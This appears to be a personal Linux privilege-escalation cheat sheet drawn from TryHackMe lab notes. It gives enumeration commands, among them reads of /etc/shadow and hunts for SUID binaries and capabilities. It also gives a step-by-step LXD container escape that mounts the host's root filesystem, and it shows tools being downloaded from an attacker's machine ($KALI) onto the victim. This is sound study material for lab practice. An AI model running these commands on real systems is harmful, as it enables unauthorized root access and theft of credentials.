 # Linux



## **Gathering Info**

```
whoami
```

```
uname -a
```

```
cat /etc/passwd
cat /etc/shadow
```

Check for passwords in environment variables

```
env
```

### Crontab

```
cat /etc/crontab
```

Possible other places crons are running

```
cat /etc/cron.d/
```

## Sudo/SUID/Capabilities <a href="#user-content-sudosuidcapabilities" id="user-content-sudosuidcapabilities"></a>

Run all of these commands then check [https://gtfobins.github.io/](https://gtfobins.github.io/) . They may give different results

**Files with SUID-bit set**

```
sudo -l
```

```
find / -perm -u=s -type f 2> /dev/null 
```

| Finding | Comments                                                                                                                                                          |
| ------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| setcap  | If setcap is set that is very interesting checkout room [annie.md](../../../../walkthroughs/tryhackme/annie.md "mention") for an example for privilege escalation |
|         |                                                                                                                                                                   |
|         |                                                                                                                                                                   |

```
getcap -r / 2>/dev/null
```





**Files where group permissions equal to "writable"**

```
find / -type f -perm /g=w -exec ls -l {} + 2> /dev/null 
```

```
ps aux | grep -v "\[" | grep root
```

```
dpkg -l # debian
```

```
rpm -qa # red hat
```

```
pacman -Qe # arch linux
```

**Look at open ports**

```
ss -ltp
```



### LXD&#x20;

Followed this link on lxd privilege escalation. Did this on [anonymous.md](../../../../walkthroughs/tryhackme/anonymous.md "mention") and [gamingserver.md](../../../../walkthroughs/tryhackme/gamingserver.md "mention")

**Link:** [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

**Victim**

```
id
```

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python2 -m SimpleHTTPServer 81
```

**Note:** The command lxd init was to resolve a storage pool area issue, it may not always be needed.

**Victim**

```
cd /tmp
wget http://$KALI/alpine-v3.18-x86_64-20231111_1929.tar.gz
lxc image import ./alpine-v3.18-x86_64-20231111_1929.tar.gz --alias myimage
lxd init
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```



## PSPY

script that can monitor linux processes without root access

**Kali**

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 
python2 -m SimpleHTTPServer 81
```

**Victim**

```
wget http://$KALI:81/pspy32 
chmod +x pspy32 
./pspy32 
```





## Docker Breakout / Privilege Escalation

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation" %}

Look at below rooms of docker breakout

[ultratech.md](../../../../walkthroughs/tryhackme/ultratech.md "mention")

[dogcat.md](../../../../walkthroughs/tryhackme/dogcat.md "mention")

[the-marketplace.md](../../../../walkthroughs/tryhackme/the-marketplace.md "mention")



Copy Material from here:

[https://tryhackme.com/room/linprivesc](https://tryhackme.com/room/linprivesc)



**Automated Enumeration Tools**

| Name                          | Link                                                                                                                                                                                           |
| ----------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| LinPeas                       | [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) |
| LinEnum                       | [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)                                                                                                                 |
| LES (Linux Exploit Suggester) | [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)                                                                                           |
| Linux Smart Enumeration       | [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)                                                                           |
| Linux Priv Checker:           | [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)                                                                                                       |





## Other Cheat sheets

[https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics](https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics)

